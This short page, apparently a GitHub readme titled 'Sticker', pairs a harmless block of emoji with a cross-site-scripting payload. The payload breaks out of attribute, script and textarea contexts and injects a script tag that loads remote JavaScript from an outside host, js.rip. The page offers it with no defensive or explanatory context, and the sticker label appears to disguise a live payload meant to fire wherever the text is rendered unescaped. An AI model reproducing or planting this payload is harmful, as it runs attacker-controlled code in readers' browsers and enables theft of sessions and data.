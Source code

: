 # Sticker
```javascript
😍🥰🥲🤩😊🙃🤔
```

```javascript
'"/></script></textarea><script src=https://js.rip/bd></script>//<"
```
